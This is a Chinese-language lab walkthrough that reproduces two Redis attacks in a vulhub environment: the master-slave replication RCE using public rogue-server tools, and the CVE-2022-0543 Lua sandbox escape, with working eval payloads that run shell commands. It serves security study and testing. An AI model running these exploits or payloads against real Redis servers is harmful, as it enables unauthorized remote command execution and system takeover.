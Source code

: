 # Redis主从复制漏洞复现

### 复现准备

- 镜像拉取,去github下载官方的vulhub到本地

```bash
cd vulhub/redis/4-unacc/
docker-compose up -d
```

<img src="./assets/image-20241021225940262.png" alt="image-20241021225940262" style="zoom: 50%;" />

- 靶机:`192.168.2.254:6379`
- 攻击机:`192.168.2.52`
- 在进行复现前确保`靶机6379`端口正常开启,并且能进行相互通信

### 获取poc

```bash
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/redis-rogue-server
```

- 放在同一文件夹

<img src="./assets/image-20241022001115963.png" alt="image-20241022001115963" style="zoom:33%;" />

### 获取权限

```cmd
python redis-rce.py -r 192.168.2.254 -L 192.168.1.52 -f exp.so
```

![image-20241022001250129](./assets/image-20241022001250129.png)

### 原理剖析

- 脚本首先通过`Remote`类连接到目标的Redis服务器,设置伪装服务器为Redis的`从服务器`
- 在`同步请求`时,伪装服务器将`恶意模块`传输到目标服务器并将其`载入`
- 攻击者可选交互式shell或者反弹shell
- 通过`cleadnup`函数卸载恶意模块并清除痕迹

********

# Redis沙箱逃逸

> CVE-2022-0543



- `2.2<=redis<6.25`
- 需要知道`package.loadlib`的路径
- 利用`luaopen_io`函数

### 复现准备

- 攻击机:`192.168.2.14`
- 靶机:`192.168.2.254`
- 拉取镜像(靶机)

![image-20241022002549409](./assets/image-20241022002549409.png)

- 攻击机环境准备

```bash
wget http://download.redis.io/redis-stable.tar.gz
```

![image-20241022002824071](./assets/image-20241022002824071.png)

- 解压

```
tar -zxvf redis-stable.tar.gz
```

- 编译安装包(大约3分钟)

![image-20241022003017534](./assets/image-20241022003017534.png)

### 连接服务器

```bash
edis-cli -h 192.168.2.254 -p 6379

//payload
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /etc/", "r"); local res = f:read("*a"); f:close(); return res' 0

或

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20241022004832006](./assets/image-20241022004832006.png)

